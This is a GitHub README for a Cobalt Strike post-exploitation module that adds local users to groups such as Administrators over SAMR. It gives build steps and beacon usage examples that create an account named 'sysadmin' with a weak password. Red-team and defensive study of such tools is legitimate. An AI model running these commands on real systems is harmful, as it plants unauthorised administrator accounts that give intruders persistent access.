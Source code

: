 # adduserbysamr-bof

Cobalt Strike BOF that Add a user to localgroup by samr.

## Build

```sh
git clone https://github.com/AgeloVito/adduserbysamr-bof.git
```

```sh 
make
```


**And load adduserbysamr.cna**


## Usage

```
beacon> help adduserbysamr
Use: adduserbysamr [username] [password] [groupName]
e.g: adduserbysamr sysadmin p@ssw0rd
     adduserbysamr sysadmin p@ssw0rd Administrators
     adduserbysamr sysadmin p@ssw0rd "Remote Desktop Users"

Add a user to localgroup by samr, groupName is "Administrators" by default, do not use it at AD.
```

<img width="1159" alt="image" src="https://user-images.githubusercontent.com/9564171/204729530-da9e2f25-a65a-4d16-a7d7-c7026c1d88ef.png">

<img width="1378" alt="image" src="https://user-images.githubusercontent.com/9564171/204736655-52747dae-18f7-407b-ae27-e499b6a89cb6.png">


## Refence

https://loong716.top/posts/MS_SAMR_Tips/

https://learn.microsoft.com/zh-cn/windows/win32/secmgmt/built-in-and-account-domains

